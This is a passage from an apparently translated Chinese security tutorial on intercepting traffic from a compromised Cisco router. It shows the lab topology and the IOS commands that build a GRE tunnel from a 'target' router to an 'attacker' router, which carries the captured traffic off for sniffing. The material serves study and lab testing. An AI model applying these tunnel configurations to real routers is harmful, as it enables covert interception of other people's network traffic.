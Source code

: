 图1 – 场景1<br>

在第二个处理场景中,中间路由器被配置为在回传捕获流量给目标路由器之前,先把流量发传送给一台Unix工作站,如图2,这个脚本克服前面的两个缺点:

对于中间路由器来说,可以使任意媒介的外部网络。

流量转发给Unix工作站时已经解封装,则使用较少的处理过程就可以提取流量中有用的信息。



[![](https://p0.ssl.qhimg.com/t01284cdeea4628f473.jpg)](https://p0.ssl.qhimg.com/t01284cdeea4628f473.jpg)

图2 – 场景2<br>

<br>

**0x03 步骤**

图3显示了在本次试验的网络拓扑。



[![](https://p0.ssl.qhimg.com/t015ffa6cea5809070b.jpg)](https://p0.ssl.qhimg.com/t015ffa6cea5809070b.jpg)

图3 – 实验测试拓扑<br>

**实验设备**

目标路由器(target router)使用双以太网接口的Cisco 3600路由器,中间路由器(attacker router)使用双以太网接口的Cisco 2600路由器。这个实验同样适用于任何IOS系统的思科路由器,可能适用于其他支持GRE隧道和策略路由的路由器。

邮件服务器是一台装有Linux的笔记本,网络嗅探设备是一台Solaris工作站,这些设备都是任意选择的。

**建立一条GRE隧道**

第一步,在对路由器进行基础的IP配置之后,就在目标路由器和中间路由器间建起GRE隧道,在实际环境使用这种方法时,目标路由器应必须首先已被入侵并可以远程配置,入侵目标路由器的方法以已经超出了本文的讨论范围。

目标路由器配置:

```
Target#conf t
Target(config)#int tunnel0
Target(config-if)#ip address 192.168.5.1 255.255.255.0
Target(config-if)#tunnel source eth0/1
Target(config-if)#tunnel dest 192.168.1.2
Target(config-if)#tunnel mode gre ip
Target(config-if)#exit
Target(config)#exit
Target#
```

建立名称为tunnel0的隧道接口,分配本地IP地址192.168.5.1(虚拟的IP地址),外部以太网接口定义为本地tunnel隧道的终点,同时定义中间路由器的外部IP地址为tunnel隧道对端的终点。在中间路由器上配置类似的命令。

中间路由器操作:

```
Attacker#conf t
Attacker(config)#int tunnel0
Attacker(config-if)#ip address 192.168.5.2 255.255.255.0
Attacker(config-if)#tunnel source eth0/1
Attacker(config-if)#tunnel dest 192.168.1.1
Attacker(config-if)#tunnel mode gre ip
Attacker(config-if)#exit
Attacker(config)#exit
Attacker#
```
